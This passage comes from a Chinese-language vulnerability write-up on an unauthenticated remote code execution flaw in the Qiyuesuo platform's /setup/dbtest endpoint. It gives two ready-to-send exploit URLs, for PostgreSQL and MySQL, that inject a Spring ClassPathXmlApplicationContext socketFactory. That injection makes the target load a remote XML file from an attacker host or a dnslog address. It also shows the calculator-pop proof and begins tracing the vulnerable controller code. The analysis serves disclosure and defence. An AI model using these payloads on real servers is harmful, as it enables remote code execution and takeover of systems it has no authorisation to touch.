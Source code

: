 ```
</beans>

```

  
执行payload：
```
/setup/dbtest?db=POSTGRESQL&host=localhost&port=5321&username=root&name=test%2F%3FsocketFactory%3Dorg%2Espringframework%2Econtext%2Esupport%2EClassPathXmlApplicationContext%26socketFactoryArg%3Dhttp%3A%2F%2F100.XX.XXX.85:8099%2F1%2Exml
```

  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshibCpIMoJxLZB2UNXA6yYlB2GoesJlpFD9FJ5lngPPeqzhxTROjibjuGDQEdjsZukdXt02GoZ7LkDg/640?wx_fmt=png&from=appmsg "")  
  
目标主机上弹出计算器  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshibCpIMoJxLZB2UNXA6yYlBznFGGUXHvEwylOpaRDmC9nvKSavvr8sJmvuOZBuLsqvQ5pK5sCOITQ/640?wx_fmt=png&from=appmsg "")  
  
mysql数据库payload：
```
/setup/dbtest?db=MYSQL&host=localhost&port=3306&username=root&name=test%2F%3FsocketFactory%3Dorg%2Espringframework%2Econtext%2Esupport%2EClassPathXmlApplicationContext%26socketFactoryArg%3Dhttp%3A%2F%2Fxxx.dnslog.cn%2F1%2Exml
```

  
  
注意：是否存在/api/路径需根据实际情况判断，如存在，payload前需添加/api/  
## 0x05 漏洞分析  
  

```
com.qiyuesuo.config.ConsoleConfiguration
```

  
 这个类有定义前台不需要鉴权的接口，其中就包含了此次漏洞的接口 
```
/setup/dbtest
```

  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshibCpIMoJxLZB2UNXA6yYlB0ic4dMJbGKpAciawHGWaZOFjs61nzakqUQG7icnxHZRvGy2GnfQkBicZmw/640?wx_fmt=png&from=appmsg "")  
  
问题的入口点 
```
com.qiyuesuo.setup.SetupController#dbtest
```

  
 在代码中请求了几个参数 host、port、name、username，接着我们追踪 
```
validateDatabase
```

  
 方法  
  